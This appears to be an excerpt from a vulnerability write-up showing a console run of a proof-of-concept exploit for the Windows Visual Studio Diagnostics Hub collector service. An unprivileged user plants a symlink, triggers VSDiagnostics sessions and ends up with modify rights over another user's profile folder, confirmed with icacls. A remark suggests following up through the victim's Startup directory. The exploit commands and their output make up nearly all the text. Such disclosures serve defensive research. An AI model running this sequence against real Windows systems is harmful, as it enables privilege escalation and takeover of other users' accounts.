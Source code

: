 The dummy way of accomplishing this would be by abusing the feature of the `Startup` directory of the operating system.

```
C:\111\bin>whoami
windows-10-dev-\unprivileged

C:\111\bin>DiagHubSetNamedSecurityInfoTakeover.exe c:\111\workdir c:\Users\irsl
Case sensitive dir created successfully c:\111\workdir\diaghub-acl-takeover-poc
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-acl-takeover-poc\ETW\Report.A8687212-25B5-4536-BEF9-A4BE776C1476 "c:\Users\irsl"
Preparation succeeded, using report dir Report.A8687212-25B5-4536-BEF9-A4BE776C1476
Exeucuting command: VSDiagnostics.exe start A8687212-25B5-4536-BEF9-A4BE776C1476 /loadAgent:e485d7a9-c21b-4903-892e-303c10906f6e;DiagnosticsHub.StandardCollector.Runtime.dll /scratchLocation:c:\111\workdir\diaghub-acl-takeover-poc\Etw
Opened Link \RPC Control\Report.A8687212-25B5-4536-BEF9-A4BE776C1476 -> \??\c:\Users\irsl: 00000130
Press ENTER to exit and delete the symlink

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Got the collector service reference
Scratch path: c:\111\workdir\diaghub-acl-takeover-poc\Etw
Creating a new session with guid: a8687212-25b5-4536-bef9-a4be776c1476
Session created
Loading agent: e485d7a9-c21b-4903-892e-303c10906f6e -> DiagnosticsHub.StandardCollector.Runtime.dll
Session A8687212-25B5-4536-BEF9-A4BE776C1476: {a8687212-25b5-4536-bef9-a4be776c1476}
  Running
Monitoring file to show up: c:\111\workdir\diaghub-acl-takeover-poc\etw\Report.A8687212-25B5-4536-BEF9-A4BE776C1476\lock
Executing the report generation process
Exeucuting command: VSDiagnostics.exe stop A8687212-25B5-4536-BEF9-A4BE776C1476 /output:-

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
lock file has shown up, c:\111\workdir\diaghub-acl-takeover-poc\Etw replaced to c:\111\workdir\diaghub-acl-takeover-poc\ETW
Stop returned with: c:\111\workdir\diaghub-acl-takeover-poc\Etw\Report.A8687212-25B5-4536-BEF9-A4BE776C1476
Session A8687212-25B5-4536-BEF9-A4BE776C1476: {a8687212-25b5-4536-bef9-a4be776c1476}
  Stopped
Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Done! Run:
icacls c:\Users\irsl

C:\111\bin>icacls c:\Users\irsl
c:\Users\irsl BUILTIN\Administrators:(F)
              BUILTIN\Administrators:(OI)(CI)(IO)(F)
              NT AUTHORITY\SYSTEM:(F)
              NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
              windows-10-dev-\unprivileged:(M,DC)
              windows-10-dev-\unprivileged:(OI)(CI)(IO)(RX,M,D,WD,AD,DC,WA)
              NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(RX)
              BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
              Everyone:(I)(RX)
              Everyone:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files


```